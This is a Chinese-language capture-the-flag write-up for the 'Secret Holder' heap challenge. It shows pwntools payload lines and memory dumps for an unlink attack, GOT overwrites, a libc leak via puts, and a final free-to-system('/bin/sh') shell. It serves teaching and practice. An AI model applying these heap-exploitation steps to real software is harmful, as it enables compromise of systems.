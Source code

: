 # Secret Holder
這題是比賽結束後照著 **bruce** 學長的想法解出來的，過程中除了複習了還不太熟悉的 unlink exploit 也新學到了幾個 heap 的特性，所以也寫一篇來記錄 XD。

## 觀察程式
首先看一下程式提供的幾項功能：
* `keepSecret`：分配 3 種不同大小的空間，並接受對應大小的輸入到該空間
* `wipeSecret`：`free` 掉某個大小的空間
* `renewSecret`：可以重新寫入某個大小的空間

以及程式中 global 段的幾個變數：
```
 0|-------------|
  |   big_ptr   |  # point to allocated 40bytes
  |-------------|
  |             |
 8|-------------|
  |  huge_ptr   |  # point to allocated 4000bytes
  |-------------|
  |             |
16|-------------| 
  |  small_ptr  |  # point to allocated 400000bytes
  |-------------|
  |             |
24|-------------|
  |   big_flag  |  # set to 1 when use keep big secret
  |-------------|
  |  huge_flag  |  # set to 1 when use keep huge secret
32|-------------|
  |  small_flag |  # set to 1 when use keep small secret
  |-------------|
```

## 解題流程

在開始之前要先知道一件事。動態申請的空間到一定的大小後，會使用 `mmap` 來分配，得到的空間將不會在 heap 上。不過當我們 `free` 掉這塊空間後再次分配相同大小的空間，會發現他改用 `malloc` 來分配了！我有試著觀察這個機制，可以參考 [mmap_test](https://www.google.com.tw/)。

於是我們可以利用這點讓 huge 和 small 兩塊 chunk 重疊，並讓 big 接在 small 後面。
接著就可以開始準備做 unlink 的準備，這裡我們打算在 small chunk 裡面造假 chunk，接著 `free` big chunk，目標是在 unlink 後 huge_ptr 會等於 `(&huge_ptr - 0x18)`。
可以透過 renew huge 來寫入要控的值：

```python
renew(3, 'E'*8 + p64(0x21) + p64(huge_ptr-0x18) + p64(huge_ptr-0x10) + p64(0x20) + p64(0xfb0))
```
<pre>
# 我們的目標，huge_ptr = 0x6020a8

small/huge chunk  -> 0x0000000000000000      0x0000000000000031
huge_ptr point to -> 0x4545454545454545      0x00000000000000<b>21</b>
                     0x0000000000<b>602090</b>      0x0000000000<b>602098</b>
       big chunk  -> 0x00000000000000<b>20</b>      0x0000000000000fb<b>0</b>
 big_ptr point to -> 0x434343434343430a      0x000000000000000a
                     0x0000000000000000      0x0000000000000000
                     0x0000000000000000      0x0000000000000000
</pre>

成功之後我們就可以去 renew huge 來把 huge_ptr 蓋成 `free@got.plt`，順便把位址更高的 small_ptr 蓋成 `__libc_start_main@got.plt`。

```python
renew(3, 'F'*24 + p64(free_got) + p64(libc_start_main_got))
```
<pre>
0x602090:              0x4646464646464646      0x4646464646464646
0x6020a0:              0x4646464646464646      0x0000000000<b>602018</b> <- huge_ptr
0x6020b0: small_ptr -> 0x0000000000<b>602048</b>      0x000000010000000a
0x6020c0:              0x0000000000000001      0x0000000000000000
</pre>

接著只要再 renew huge 送 `puts@plt` 進去，就可以將 `free` 蓋成 `puts` 了。
又因為我們剛才把 small_ptr 蓋成 `__libc_start_main@got.plt`，我們可以用 wipe small 來 leak 出 libc address，從而推出 libc base address。

接著，我們再一次用 renew huge 把 `system` 給送上去，這樣就把 `free` 蓋成 `system` 了。然後我們利用 keep small 把 `"/bin/sh"` 寫進 small_ptr。最後，用 wipe small 的時候就會從 `free(small_ptr)` 變成 `system("/bin/sh")`，順利取得 shell！

